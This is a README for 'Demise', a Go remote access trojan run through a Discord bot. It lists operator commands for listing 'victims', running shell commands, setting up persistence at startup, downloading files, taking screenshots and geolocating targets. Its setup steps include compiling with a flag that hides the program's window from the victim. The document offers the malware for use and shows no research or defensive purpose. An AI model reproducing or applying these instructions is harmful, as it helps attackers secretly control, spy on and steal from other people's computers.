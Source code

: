 # Demise

Demise is Golang malware that uses Discord for communication. 

![image](https://user-images.githubusercontent.com/99378532/184524385-89bda0f6-b46d-4e5e-868f-f044dac0ae1d.png)

# Demo

![image](https://user-images.githubusercontent.com/99378532/184524374-a18668bc-7888-4912-b4be-269bedde7b6e.png)

# Commands
- show victims connected
```$victims```

- extract a zip file
```$unzip <username> <.zip file on drive> <directory to extract in>```

- run Demise on startup
```$startup <username>```

- run an executable (some executables require admin)
```$run <username> <location of exe>```

- download file
```$dl <username> <url> <name of file>```

- run commands
```$shell <username> <command> <flags... optional>```

- screenshot desktop
```$ss <username>```

- get IP
```$ip <username>```

- kill session
```$kill <username>```

- geolocate
```$geoloc <username>```


# HOWTO

1. Download the source code
2. Download golang https://go.dev choose the correct install for your os
3. make a server (this is a discord bot RAT)
4. make a bot. I won't show you how because there are many tutorial on youtube https://www.youtube.com/watch?v=7A-bnPlxj4k&t=20s
5. add the bot to your server and make a new text channel in your server
6. copy your bot's token and the id of the text channel you just created
![image](https://user-images.githubusercontent.com/99378532/192041038-0c5dcd79-a98b-45ea-88fe-800bb28e5fbe.png)
7. put the channel id here at the beginning of the source code 
![image](https://user-images.githubusercontent.com/99378532/192041183-22706c07-32f7-4763-b822-d90cdd3c092b.png)
8. put your bot's token here
9. compile with a command similiar to this one "go build -ldflags="-s -w -H=windowsgui" ." -H=windowsgui will hide the window

if the bot doesn't respond to commands change your intents


